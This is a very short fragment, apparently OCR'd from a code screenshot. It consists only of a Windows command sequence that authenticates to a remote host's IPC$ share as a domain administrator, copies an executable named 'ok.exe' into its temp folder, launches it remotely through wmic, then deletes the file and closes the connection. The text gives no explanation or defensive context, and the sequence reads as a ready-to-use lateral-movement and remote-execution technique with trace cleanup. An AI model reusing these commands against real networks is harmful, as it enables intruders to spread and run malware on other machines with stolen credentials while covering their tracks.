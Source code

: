 	>net use \\192.168.0.55\ipc$ "password" /user:"domain\administrator"
	>copy ok.exe \\192.168.0.55\c$\windows\temp
	>wmic /NODE:" 192.168.0.55" /user:"administrator" /password:"password" PROCESS call create "c:\windows\temp\ok.exe"
	>del \\192.168.0.55\c$\windows\temp\ok.exe /F
	>net use \\192.168.0.55\c$ /del
